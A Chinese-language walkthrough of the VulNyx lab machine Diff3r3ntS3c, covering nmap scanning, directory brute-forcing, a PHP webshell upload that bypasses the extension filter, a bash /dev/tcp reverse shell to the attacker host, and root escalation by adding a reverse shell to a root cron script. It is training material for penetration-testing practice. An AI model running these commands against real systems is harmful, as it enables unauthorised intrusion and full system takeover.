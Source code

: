 # 环境

来自[vulnyx_Diff3r3ntS3c](https://vulnyx.com/#Diff3r3ntS3c)

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240710183727440](image/image-20240710183727440.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.30
```

![image-20240710183824841](image/image-20240710183824841.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p80 192.168.88.31
```

## 目录爆破

```bash
dirsearch -u http://192.168.88.31
```

![image-20240710184853014](image/image-20240710184853014.png)

# web渗透

## 文件上传拿shell

访问主页发现存在文件上传功能，测试是否能够绕过

![image-20240710190850445](image/image-20240710190850445.png)

准备木马

```bash
cp /usr/share/webshells/php/simple-backdoor.php ./
```

使用burp抓包，不断更改尝试php后缀，webshell上传成功

![image-20240710190809808](image/image-20240710190809808.png)

尝试反弹shell

```bash
curl -s "http://192.168.88.31/uploads/13/simple-backdoor.phtml?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.88.10/9999 0>%261'"
```

![image-20240710192403352](image/image-20240710192403352.png)

```bash
#获得更好的交互shell
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty size
stty rows 24 columns 80
source /etc/skel/.bashrc
```

## 定时任务提取

发现有一个定时任务，且这个定时任务是以root用户运行的，我们可以进行利用

![image-20240710202316490](image/image-20240710202316490.png)

这是一个备份的脚本，我们在这个脚本里面添加反弹shell，或者给bash加上setuid都可以拿到root，前者权限大一点

```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.88.10/8888 0>&1'"
```

![image-20240710202627675](image/image-20240710202627675.png)

